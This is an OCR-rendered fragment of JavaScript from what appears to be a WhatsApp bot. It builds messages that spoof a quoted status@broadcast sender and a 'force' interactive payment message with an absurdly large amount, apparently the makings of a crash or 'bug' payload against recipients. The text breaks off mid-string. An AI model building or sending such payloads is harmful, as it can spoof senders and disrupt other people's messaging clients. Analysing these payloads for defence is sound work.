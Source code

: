 const statrp = {
key: {
participant: '0@s.whatsapp.net',
...(m.chat ? {
remoteJid: "status@broadcast"
} : {})
},
message: {
listResponseMessage: {
title: '🖤  ༘྅Classic Bot Territory ꧏ🤍҈ ༑'
}
}
}
  
const force = {
  key: {
    participant: '0@s.whatsapp.net',
    ...(m.chat ? {
      remoteJid: "status@broadcast"
    } : {})
  },
  'message': {
    "interactiveMessage": {
      "header": {
        "hasMediaAttachment": true,
        "jpegThumbnail": fs.readFileSync('./image/latx.png')
      },
      "nativeFlowMessage": {
        "buttons": [
          {
            "name": "review_and_pay",
            "buttonParamsJson": '{\"currency\":\"IDR\",\"total_amount\":{\"value\":49981399788,\"offset\":100},\"reference_id\":\"4OON4PX3FFJ\",\"type\":\"physical-g
